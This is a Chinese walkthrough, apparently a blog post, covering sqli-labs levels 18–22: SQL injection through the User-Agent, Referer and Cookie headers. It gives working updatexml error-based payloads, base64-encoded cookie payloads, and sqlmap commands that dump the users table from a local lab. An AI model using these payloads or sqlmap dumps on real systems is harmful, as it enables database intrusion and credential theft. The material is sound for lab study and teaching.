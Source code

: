 ```yaml
---
 title: Sqlilabs通关笔记(18-22)数据头注入
 date: 2020-01-07 12:32:50
 tags: SQL注入
 categories: SQL注入
---
```


## 第十八关 基于POST错误的Uagent字段数据头注入

![2020-1-7-12-45-44](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-12-45-44)
<!--more-->

### 注入点判断

1. 页面显示yourip应该是请求头的参数参入
2. 同时post传入并未有该参数
3. 用admin登录成功后发现有User-agents显示

![2020-1-7-12-57-43](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-12-57-43)

4. 无法使用hackbar插件提交了，需要用到burpsuit进行抓包提交
5. 抓包如下

![2020-1-7-12-58-2](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-12-58-2)

6. 在user-agent头上加单引号报错，确定user-agent注入了

![2020-1-7-13-1-5](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-13-1-5)

7. 通过单引号闭合进行payload构造

> User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0)' and '1' = '1

8. 直接构造报错注入的payload

> User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0)' and (updatexml(1,concat(0x7e,user(),0x7e),1)) and '1' = '1

![2020-1-7-13-8-59](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-13-8-59)

## 第十九关 基于POST错误的Referer字段数据头注入

1.同理，本关的注入点在Referer参数，payload一样只是参数位置不同

![2020-1-7-13-13-16](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-13-13-16)

## 第二十关 基于POST错误的Cookie-Uagent字段数据头注入

1.同理，本关的注入点在cookie参数，payload一样只是参数位置不同

> Cookie: uname=admin' and (updatexml(1,concat(0x7e,user(),0x7e),1)) and '1' = '1

![2020-1-7-13-19-53](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-13-19-53)

## 第二十一关 基于base64编码单引号的Cookie注入
1.同理，本关的注入点在cookie参数，和上一关payload一样只是编码方式不同

> uname=YWRtaW4nIGFuZCAodXBkYXRleG1sKDEsY29uY2F0KDB4N2UsdXNlcigpLDB4N2UpLDEpKSBhbmQgJzEnID0gJzE%3d

![2020-1-7-15-43-41](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-15-43-41)

## 第二十二关 基于base64编码加密的双引号Cookie注入

1.同理，本关的注入点在cookie参数，和上一关payload一样只是双引号闭合方式

> uname=YWRtaW4iIGFuZCAodXBkYXRleG1sKDEsY29uY2F0KDB4N2UsdXNlcigpLDB4N2UpLDEpKSBhbmQgIjEiID0gIjE%3d

![2020-1-7-15-49-59](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-15-49-59)

### SQLMAP注入

1. 可以直接使用-r进行对抓取的数据包进行检测
**在user-agent这个需要检测的参数上加上*号**

![2020-1-7-13-44-57](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-13-44-57)

> sqlmap -r "2.txt" -D security -T users --columns --dump --batch --technique E --batch --level 3 --threads 10

2. 也可以直接通过user-agent注入,时间可能稍长一些
> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-18/" --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0' and '1'='1" --level 3 --threads 10 --dbms mysql --fresh-queries --flush-session -D security -T users --columns --dump --batch --technique E

* **--level** 

level: 设置检测的方方面面和测试用例
    - 默认是1,会尝试POST和GET
    - 2:Cookie也会加入检测
    - 3:User-Agent和Referer也会检测, 更大的值会增加用例量

* **--user-agent**

指定User-Agent

* **--data**

指定请求的内容

* **--dbms**

指定后端数据库,给定后端数据库的类型可以减少减少无关的测试用例.

* **--fresh-queries** 

fresh-queries会忽略之前的查询结果,进行重新请求操作

* **--flush-session**

flush-session会清空当前URL相关的session